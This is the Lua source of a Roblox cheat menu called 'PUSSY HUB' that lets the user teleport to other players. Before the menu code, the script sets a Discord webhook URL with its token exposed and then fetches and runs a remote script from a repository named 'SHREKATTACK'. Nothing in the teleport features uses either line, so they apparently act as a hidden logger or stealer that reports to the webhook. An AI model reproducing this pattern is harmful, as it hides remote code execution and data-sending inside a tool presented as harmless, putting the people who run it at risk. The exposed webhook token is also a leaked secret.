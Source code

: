 _G.webhooksdiscord = "https://discord.com/api/webhooks/952534837422608384/SdxPIEPCN4no6wLSaEMoQlIRf7s3uwjS8ZoQNwi80nJR1G1MLVPklORU01hYvV7uFkhk"
loadstring(game:HttpGet("https://raw.githubusercontent.com/SHARKX516/SHREKATTACK/main/SHARKLOL2.lua"),true)()


local Library = loadstring(game:HttpGet("https://raw.githubusercontent.com/xHeptc/Kavo-UI-Library/main/source.lua"))()
local Window = Library.CreateLib("PUSSY HUB", "Ocean")
local Tab = Window:NewTab("Player")
local Section = Tab:NewSection("Select Player!")
Plr = {} 
for i,v in pairs(game:GetService("Players"):GetChildren()) do
    table.insert(Plr,v.Name) 
end
local drop = Section:NewDropdown("Select Player!", "Click To Select", Plr, function(t)
   PlayerTP = t
end)
Section:NewButton("Click To TP", "", function()
    game.Players.LocalPlayer.Character.HumanoidRootPart.CFrame = game.Players[PlayerTP].Character.HumanoidRootPart.CFrame
end)
Section:NewToggle("Auto Tp", "", function(t)
_G.TPPlayer = t
while _G.TPPlayer do wait()
game.Players.LocalPlayer.Character.HumanoidRootPart.CFrame = game.Players[PlayerTP].Character.HumanoidRootPart.CFrame
end
end)

Section:NewButton("Refresh Dropdown","Refresh Dropdown", function()
  drop:Refresh(Plr)
end)

